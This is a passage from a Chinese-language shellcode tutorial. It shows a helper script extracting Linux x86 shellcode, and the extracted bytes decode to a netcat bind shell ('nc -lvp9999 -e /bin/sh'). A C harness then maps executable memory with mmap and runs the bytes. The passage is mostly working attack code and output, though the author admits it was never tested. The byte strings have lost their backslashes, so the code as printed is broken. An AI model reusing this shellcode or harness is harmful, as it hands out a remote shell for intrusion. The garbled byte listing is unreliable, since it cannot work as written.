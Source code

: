 ```
66:44                   inc    %esp
```

接下来我并没有对运行这段代码进行测试，因为我百分之百肯定这段代码是可以运行的。

提取这段代码

```
root@MINDZSEC:~# ./xxd-shellcode.sh ntcat.o
```

得到shellcode

```
"xebx35x31xc0x31xdbx31xc9x99xb0xa4xcdx80x5ex31xc0x88x46x07x88x46x10x88x46x1ax89x76x1bx8dx5ex08x89x5ex1fx8dx5ex11x89x5ex23x89x46x27xb0x0bx89xf3x8dx4ex1bx8dx56x27xcdx80xe8xc6xffxffxffx2fx62x69x6ex2fx6ex63x23x2dx6cx76x70x39x39x39x39x23x2dx65x2fx62x69x6ex2fx73x68x23x41x41x41x41x42x42x42x42x43x43x43x43x44x44x44x44"
```

现在得到了shellcode，接下来要做的工作就是把这段代码放到mman.c测试程序中去运行了。放到mman.c中的程序最终如下:

```
root@MINDZSEC:~# nano Mmap.c
```



```
#include &lt;stdio.h&gt;
#include &lt;sys/mman.h&gt;
#include &lt;string.h&gt;
#include &lt;stdlib.h&gt;
#include &lt;unistd.h&gt;
int (*shellcodetotest)();
char shellcode[] = "xebx35x31xc0x31xdbx31xc9x99xb0xa4xcdx80x5ex31xc0x88x46x07x88x46x10x88x46x1ax89x76x1bx8dx5ex08x89x5ex1fx8dx5ex11x89x5ex23x89x46x27xb0x0bx89xf3x8dx4ex1bx8dx56x27xcdx80xe8xc6xffxffxffx2fx62x69x6ex2fx6ex63x23x2dx6cx76x70x39x39x39x39x23x2dx65x2fx62x69x6ex2fx73x68x23x41x41x41x41x42x42x42x42x43x43x43x43x44x44x44x44";
int main(int argc, char **argv) `{`
void *ptr = mmap(0, 150, PROT_EXEC | PROT_WRITE| PROT_READ, MAP_ANON | MAP_PRIVATE, -1, 0);
if(ptr == MAP_FAILED)`{`
perror("mmap");
exit(-1);
`}`
memcpy(ptr, shellcode, sizeof(shellcode));
shellcodetotest = ptr;
shellcodetotest();
return 0;
`}`
```

编译这段代码

```
root@MINDZSEC:~# gcc Mmap.c -o Mmap
```
